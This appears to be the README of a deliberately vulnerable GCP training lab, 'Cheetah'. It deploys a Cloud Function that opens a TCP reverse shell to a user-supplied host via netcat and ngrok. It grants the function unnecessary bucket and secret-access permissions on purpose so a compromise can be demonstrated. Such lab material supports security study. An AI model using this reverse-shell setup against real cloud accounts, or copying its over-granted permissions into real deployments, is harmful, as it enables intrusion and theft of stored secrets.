 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Google Cloud SDK](https://cloud.google.com/sdk/install)
* [Node.js v14.15.4 / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

Follow [these steps](https://serverless.com/framework/docs/providers/google/guide/credentials/) to generate a credentials file. Deploy the function by specifying your GCP project ID and the **absolute path** of the credentials file.

```bash
cd /PATH/TO/cheetah/src/cheetah
npm install

# Optional: Create protected storage bucket that the function role has access to.
export WITH_BUCKET=true
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json
npx serverless deploy
```

In addition to deploying the function, if `WITH_BUCKET=true` and `BUCKET_SUFFIX` is set, this will create a private storage bucket. The function role will have unnecessary permissions to access the bucket.

To upload a secret image to the bucket, run the following:

```bash
gcloud auth activate-service-account --key-file /PATH/TO/.gcloud/keyfile.json
gsutil cp /PATH/TO/assets/* "gs://cheetah-$BUCKET_SUFFIX"
```

You can also use Cheetah to demonstrate how a compromised function could be used to access the GCP Secret Manager. In order to set this up:

* Enable "Secret Manager API" in the [API dashboard](https://console.cloud.google.com/apis/dashboard).
* Recreate your service account and add the "Secret Manager Admin" role.
* As [the Serverless Framework always uses the App Engine default service account](https://github.com/serverless/serverless-google-cloudfunctions/issues/161), 
* Run the following:

```bash
gcloud config set project YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID # If you receive a warning like the following, you can just ignore it: WARNING: You do not appear to have access to project [...] or it does not exist.

gcloud secrets create cheetah-database-password --replication-policy automatic
echo -n 'RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9uJ3Qga25vdyBldmlsIG9yIGplYWxvdXN5IG9yIGRpc2NvbnRlbnQu' | gcloud secrets versions add cheetah-database-password --data-file="-"
gcloud secrets add-iam-policy-binding cheetah-database-password --member serviceAccount:YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go116 --trigger-http --service-account=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com
```

## Testing in GCP

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cheetah --url-id YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "https://$GCP_REGION-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
cd /PATH/TO/cheetah/src/cheetah
export SERVERLESS_CHEETAH_BUCKET=$(gsutil ls gs://sls-cheetah-dev*)
gsutil rm $SERVERLESS_CHEETAH_BUCKET**
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json
npx serverless remove
```

## Linting

```bash
cd /PATH/TO/cheetah/src/cheetah
go get -u golang.org/x/lint/golint
npm run lint
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cheetah.

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Serverless

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
